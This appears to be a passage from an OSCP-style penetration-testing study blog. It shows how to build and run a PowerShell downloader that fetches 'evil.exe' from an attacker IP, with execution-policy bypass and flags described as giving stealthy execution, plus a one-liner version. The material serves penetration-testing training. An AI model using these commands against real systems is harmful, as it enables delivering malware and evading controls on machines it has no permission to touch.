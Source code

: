 ![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/16/61.jpg)

doing same thing with windows poershell


![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/16/62.jpg)

• In recent versions of windows power shell is easier.

• The example below shows an implementation of a downloader script using theSystem.Net.WebClient PowerShell class

C:\Users\Offsec> echo $webclient = New-Object System.Net.WebClient >>wget.ps1
C:\Users\Offsec> echo $url = "http://10.11.0.4/evil.exe" >>wget.ps1
C:\Users\Offsec> echo $file = "new-exploit.exe" >>wget.ps1
C:\Users\Offsec> echo $webclient.DownloadFile($url,$file) >>wget.ps1

• Now we can use PowerShell to run the script and download our file.

• However, to ensure both correctand stealthy execution, we specify a number of options in the execution of the script as shown.


![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/16/63.jpg)



![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/16/64.jpg)


• First, we must allow execution of PowerShell scripts (which is restricted by default) with the -ExecutionPolicy keyword and Bypass value.
 
• Next, we will use -NoLogo and -NonInteractiveto hide the PowerShell logo banner and suppress the interactive PowerShell prompt, respectively.
 
• The -NoProfile keyword will prevent PowerShell from loading the default profile (which is notneeded), and finally we specify the script file with -File:

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/16/65.jpg)

C:\Users\Offsec> powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoPro
file -File wget.ps1
# - Executing the PowerShell HTTP downloader script

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/16/66.jpg)

C:\Users\Offsec> powershell.exe (New-Object System.Net.WebClient).DownloadFile('http:/
/10.11.0.4/evil.exe', 'new-exploit.exe')
# - Executing the PowerShell HTTP downloader script as a one-liner

• If we want to download and execute a PowerShell script without saving it to disk, we can once againuse the System.Net.Webclient class.
 